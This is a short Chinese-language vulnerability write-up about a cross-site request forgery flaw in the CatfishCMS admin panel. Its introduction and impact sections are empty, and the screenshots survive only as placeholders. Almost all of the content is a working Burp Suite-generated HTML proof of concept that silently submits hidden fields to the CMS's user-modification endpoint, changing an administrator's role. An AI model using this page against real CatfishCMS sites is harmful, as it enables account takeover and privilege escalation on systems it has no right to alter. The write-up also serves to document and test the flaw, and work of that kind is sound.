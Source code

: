 CatfishCMS后台csrf
==================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

首先需要登录后台

    <html>
      <!-- CSRF PoC - generated by Burp Suite Professional -->
      <body>
      <script>history.pushState('', '', '/')</script>
      <form action="http://0-sec.org/index.php/admin/index/modifymanage.html?c=73" method="POST">
          <input type="hidden" name="uid" value="73" />
          <input type="hidden" name="juese" value="3" />
          <input type="hidden" name="verification" value="05f176843c20e12c1364e80b9869ac17" />
          <input type="submit" value="Submit request" />
        </form>
      </body>
    </html>

修改前

![](resource/CatfishCMS后台csrf/media/rId24.png)

修改后

image
